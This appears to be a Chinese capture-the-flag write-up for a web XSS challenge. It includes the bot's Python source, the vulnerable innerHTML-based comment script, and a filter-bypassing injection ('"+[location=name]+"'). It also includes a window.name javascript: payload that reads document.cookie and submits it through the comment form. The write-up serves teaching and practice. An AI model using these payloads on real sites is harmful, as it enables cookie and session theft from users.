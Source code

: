 ```py
        print("- Logining...")
        driver.get(LOGIN_URL)
        time.sleep(4)

        print(" Putting secret flag...")
        driver.execute_script(f'document.cookie="flag={FLAG}"')
        time.sleep(1)

        print("- Now browsing your website...")
        driver.get("http://localhost:10240")
        time.sleep(4)

        print("Bye bye!")
except Exception as e:
    print("ERROR", type(e))
    print("I'll not give you exception message this time.")
```

可以看到，先让我们提交一段 html 代码，机器人会将这段 html 代码构建一个页面，放到 127.0.0.1:10240


提交评论的页面的 JavaScript 代码
```js
<script>
    function updateElement(selector, html) {
      document.querySelector(selector).innerHTML = html;
    }
    updateElement("#score", "你的得分是 <b>0</b> 分");
    updateElement("#comment", "这里是提交的评论内容");
</script>
```

updateElement() 方法提供了攻击点，虽然有限制：评论不超过 25 个字，不允许出现的字符 ```& > < ' ( ) ` . , %```

一开始想了很多办法，后来发现原来还能通过 ```"``` 逃逸出来，所以使用这样的 ```"+[location=name]+"``` 去绕过，构建一个数组，在其中将 location 赋值成 name 的值

接下来就是构造 html 代码，这里直接用大佬的 js 了
```js
<script>
  window.name =
    "javascript:document.querySelector('textarea').value=document.cookie.replace(/%/g,'#').substring(50,75);document.querySelector('button').click()";
  location.href = "http://web/result";
</script>
```

当访问构造的这个页面时，会将 window.name 设置我们构造的 JavaScript 代码的字符串，然后立即将页面重定向到 "http://web/result"，也就是访问提交评论的页面
因为在前面评论的页面我们构造了 ```"+[location=name]+"```，页面的当前 URL 修改为 url + name 中的值，所以会导致 name 中的恶意代码被执行，从而得到 cookie 的内容

